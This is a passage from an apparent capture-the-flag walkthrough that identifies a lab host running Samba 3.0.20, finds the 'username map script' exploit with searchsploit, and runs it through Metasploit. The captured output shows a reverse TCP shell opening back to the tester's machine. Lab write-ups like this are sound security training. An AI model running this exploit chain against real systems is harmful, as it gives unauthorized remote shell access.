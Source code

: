 ```bash
$ exploit

[*] 10.10.10.3:445        - Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] 10.10.10.3:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

Teh scan should return quickly enough and this time we should have the exact samba version of 3.0.20. so lets search for any exploits for this version. so again from inside msf console we can search for samba 3.0.20 and we'll be presented with lots of potential exploits. The job now is to try work our way through these and find something that works for us. Searching with searchsploit will give us better results and quickly point us to the 'username map script' and thats the next exploit that we'll try.


```bash
$ searchsploit samba 3.0.20
--------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                                                                                       |  Path
                                                                                                                                                                     | (/usr/share/exploitdb/)
--------------------------------------------------------------------------------------------------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                                                     | exploits/unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                                | exploits/linux/remote/7701.txt
--------------------------------------------------------------------------------------------------------------------------------
Shellcodes: No Result

```
We can walk through the same steps again to launch the exploit and set the options etc. This time however the exploit should work.

```bash
$ exploit

[*] Started reverse TCP double handler on 10.10.14.6:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo lvAkii9KY4bvwjOc;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "lvAkii9KY4bvwjOc\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.6:4444 -> 10.10.10.3:37427) at 2019-11-21 04:07:21 +0000

```
